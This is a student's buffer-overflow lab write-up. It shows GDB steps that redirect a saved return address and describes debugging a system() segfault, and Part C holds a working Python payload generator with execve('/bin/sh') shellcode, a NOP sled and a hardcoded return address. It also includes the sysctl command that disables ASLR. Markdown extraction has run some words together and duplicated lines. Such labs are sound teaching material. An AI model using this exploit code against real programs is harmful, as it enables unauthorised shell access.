

Buffer Overflow
This project explores some of the dangers of buffer overflow using a vulnerable program, overflow.c, and its compiled version, overflow.
Note that one buffer-overflow protection normally used in modern operating
systems is Address Space Layout Randomization (ASLR). This permutes the
virtual address mapping of each segment of your program, every time it is run.
To be able to reproduce this project, you will need to run this in a virtual machine
with ASLR disabled. This
will ensure that each time you run overflow, all the addresses will be the same.
To disable ASLR, run the command sudo sysctl kernel.randomize_va_space=0.
Make sure this is done in a VIRTUAL MACHINE! You do not want to disable this
protection on your own system!
Part A
In order to get to the vulnerable function with GDB, I first ran the program
with gdb overflow. After that, I performed the following steps:
- Set a break point in
mainwithbreak main - Run the program with
run - Use
disassemble vulnerablein order to get the address of thevulnerablefunction,0x0000555555555179 - Get the address of the saved
rip(0x7fffffffddd8) withinfo frame - Set the saved
ripto the address ofvulnerablewithset {void *}0x7fffffffddd8 = 0x0000555555555179 - Run the rest of the program with
continue
Interestingly, this correctly jumped to the vulnerable function, but it would
produce a segmentation fault when it ran system(IMPORTANT). In order to see
if I could find where the problem was, I did the following:
- Created a seperate version of the code that called
vulnerable. This code ran as expected and opened up a shell, indicating that thesystem(IMPORTANT)works correctly when called normally. - Ran the modified code with GDB, setting break points and stepping through the code one line at a time. This still worked correctly, indicating that GDB wasn't interfering with the system call.
- Ran the original call up until the
system(IMPORTANT)call, then ran the commandcall system(IMPORTANT). This correctly opened up a shell, which would seem to indicate that there isn't a problem with the stack or registers, unless I don't understand how thecallcommand works. - Examined the line of code where it segfaults in
system.c:
Unfortunately, this didn't give me much information, since I'm not as familiar with theret = __posix_spawn (&pid, SHELL_PATH, 0, &spawn_attr, (char *const[]){ (char *) SHELL_NAME, // <-- Error indicated here (char *) "-c", (char *) line, NULL }, __environ); __environ);glibclibrary.
Finally, I decided to try jumping directly to the setup for the
system(INFORMATION) call at 0x000055555555518c, rather than the beginning
of the function. Surprisingly, this worked! I'm not sure why there was a
difference, other than the fact that the setup for the vulnerable function or
puts may have messed with the stack in some way. This would be an interesting
point of further research.
Part B
Part C
The following code is makepayload used in running shellcode with
./overflow2 `./makepayload 120`
./overflow2 `./makepayload 120`#!/usr/bin/env python3
import sys
#machine code to execve("/bin/sh", NULL, NULL) from https://www.exploit-db.com/exploits/46907
shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
#the target address we want to jump to (beginning, approximately, of nameBuffer) in LE format
#YOU NEED TO MAKE THIS BE THE ADDRESS OF nameBuffer, approximately
target = b'\x50\xdd\xff\xff\xff\x7f'
#how many bytes we need to include in our payload to get 'target' written over main's saved $RIP
#YOU HAVE TO FIND THE RIGHT OFFSET HERE
stackspot=int(sys.argv[1])
#how big a noop sled we want
#YOU MIGHT NEED TO TWEAK THIS
sledsize = 16
sled = b'\x90'*sledsize
#some ASCII chars to fill out the buffer
stuff = b'A' * (stackspot - len(shellcode) - len(sled))
# for this attack, the buffer looks like this:
# noop-sled || shellcode || stuff || target-written-over-saved-eip
payload = sled + shellcode + stuff + target
# write binary string to stdout raw
sys.stdout.buffer.write(payload)
sys.stdout.buffer.write(payload)